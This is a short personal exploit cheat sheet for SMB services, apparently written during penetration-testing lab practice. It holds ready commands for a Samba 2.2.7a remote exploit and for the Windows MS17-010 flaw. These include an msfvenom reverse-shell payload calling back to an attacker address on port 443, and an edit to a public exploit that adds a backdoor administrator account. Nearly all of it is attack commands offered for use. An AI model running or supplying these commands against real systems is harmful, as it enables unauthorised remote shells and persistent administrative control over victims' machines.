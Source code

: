 Manual Exploits SMB

**********************************************LINUX********************************************


#1. use wireshark to find the versions.

smaba 2.2.7a 7.pl

perl 7.pl -M B -t linx86 -H 192.168.119.246 -h 10.11.1.115

#2. 


********************************************WINDOWS********************************************

#1 Windows ms17-010 Many wasy to exploit but found

1. send_and_execute.py 10.11.1.227 ms17-010.exe 
2. msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.246 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

Exploit-2: If firewall is enabled, revershell may not be possible and only RCE is possible

1. In https://www.exploit-db.com/exploits/42315 edit smb_send 
2. service_exec(conn, r'cmd /c net user /add beast $ecure1n && net localgroup administrators /add beast ')
